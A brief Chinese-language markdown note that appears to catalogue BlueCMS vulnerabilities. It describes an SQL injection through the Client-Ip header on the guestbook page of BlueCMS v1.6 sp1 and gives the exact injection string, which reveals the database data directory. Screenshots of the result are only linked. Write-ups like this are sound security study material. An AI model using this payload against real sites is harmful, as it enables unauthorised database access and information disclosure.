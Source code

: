 ## 关于 bluecms 漏洞整理



### xff 注入


在bluecms v1.6 sp1 版本中在留言页面，通过在头部注入：`Client-Ip: 127.0.0.3',@@datadir)#`

如下图：

[![rer2e1.png](https://s3.ax1x.com/2020/12/13/rer2e1.png)](https://imgchr.com/i/rer2e1)



注入之后的结果如下：

[![rer4JO.png](https://s3.ax1x.com/2020/12/13/rer4JO.png)](https://imgchr.com/i/rer4JO)







